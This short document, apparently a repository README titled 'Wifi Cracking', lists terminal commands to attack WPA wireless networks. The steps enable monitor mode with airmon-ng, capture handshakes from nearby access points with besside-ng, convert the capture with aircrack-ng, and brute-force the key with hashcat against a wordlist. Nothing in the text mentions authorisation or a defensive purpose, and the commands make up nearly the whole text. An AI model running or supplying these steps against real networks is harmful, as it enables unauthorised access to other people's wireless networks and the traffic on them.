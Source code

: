 # Wifi Cracking

open a terminal and type
airmon-ng start wlan0

then
besside-ng wlan0

once besside has pwnd the required point
aircrack-ng /root/wpa.cap -j con

then
hashcat -m 2500 -a 3 /root/con.hccapx /usr/share/metasploit-framework/data/wordlists/password.lst --force

